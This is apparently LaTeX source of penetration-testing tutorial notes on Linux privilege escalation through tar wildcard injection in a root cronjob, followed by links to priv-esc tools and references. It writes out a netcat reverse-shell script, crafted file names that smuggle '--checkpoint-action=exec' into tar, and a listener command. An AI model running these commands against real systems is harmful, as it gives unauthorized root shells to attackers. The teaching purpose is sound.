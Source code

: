 \documentclass[12pt,a4paper]{scrartcl}
\begin{document}
\subsection{Wildcard Injection}
If there is a command using wildcard that is automatically executed by the target (cronjob as root) it may be vulnerable to wildcard injection.\\
To demonstrate this we assume that there is a tar cronjob that archives every file in a writable folder with the wildcard *.
\begin{lstlisting}
	*/2 * * * * *	root tar -zcf /var/backups/docs.tgz /home/user/Documents/*
\end{lstlisting}
We now can create some files to modify the tar command and execute a reverse shell with it:
\begin{lstlisting}
	echo "mkfifo /tmp/lhennp; nc $IP 8888 0</tmp/lhennp | /bin/sh >/tmp/lhennp 2>&1; rm /tmp/lhennp" > shell.sh
	echo "" > "--checkpoint-action=exec=sh shell.sh"
	echo "" > --checkpoint=1
\end{lstlisting}
We can catch the reverse shell with a netcat listener on our machine and we have root!
\begin{lstlisting}
	nc -lnvp 8888
\end{lstlisting}
privilege escalation is such a large topic that it would be impossible to do it proper justice in this type of room. However, it is a necessary topic that must be covered, so rather than making a task with questions, I shall provide you all with some resources.

General:

https://github.com/swisskyrepo/PayloadsAllTheThings (A bunch of tools and payloads for every stage of pentesting)


Linux:

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ (a bit old but still worth looking at)

https://github.com/rebootuser/LinEnum( One of the most popular priv esc scripts)

https://github.com/diego-treitos/linux-smart-enumeration/blob/master/lse.sh (Another popular script)

https://github.com/mzet-/linux-exploit-suggester (A Script that's dedicated to searching for kernel exploits)


https://gtfobins.github.io (I can not overstate the usefulness of this for priv esc, if a common binary has special permissions, you can use this site to see how to get root perms with it.)
\end{document}
